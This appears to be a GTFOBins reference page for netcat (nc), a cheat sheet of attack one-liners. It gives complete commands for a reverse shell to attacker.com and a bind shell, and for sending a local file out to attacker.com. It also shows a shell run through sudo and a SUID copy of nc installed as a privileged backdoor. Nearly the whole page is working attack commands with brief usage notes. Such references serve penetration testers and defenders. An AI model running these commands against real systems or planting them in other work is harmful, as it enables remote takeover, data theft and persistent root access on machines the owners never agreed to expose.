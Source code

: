 # GTFOBin: nc

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

Run `nc -l -p 12345` on the attacker box to receive the shell. This only works with netcat traditional.

```
RHOST=attacker.com
RPORT=12345
nc -e /bin/sh $RHOST $RPORT
```

## Bind shell

It can bind a shell to a local port to allow remote network access.

Run `nc target.com 12345` on the attacker box to connect to the shell. This only works with netcat traditional.

```
LPORT=12345
nc -l -p $LPORT -e /bin/sh
```

## File upload

It can exfiltrate files on the network.

Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.

```
RHOST=attacker.com
RPORT=12345
LFILE=file_to_send
nc $RHOST $RPORT < "$LFILE"
```

## File download

It can download remote files.

Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.

```
LPORT=12345
LFILE=file_to_save
nc -l -p $LPORT > "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Run `nc -l -p 12345` on the attacker box to receive the shell. This only works with netcat traditional.

```
RHOST=attacker.com
RPORT=12345
sudo nc -e /bin/sh $RHOST $RPORT
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

Run `nc -l -p 12345` on the attacker box to receive the shell. This only works with netcat traditional.

```
sudo install -m =xs $(which nc) .

RHOST=attacker.com
RPORT=12345
./nc -e /bin/sh $RHOST $RPORT
```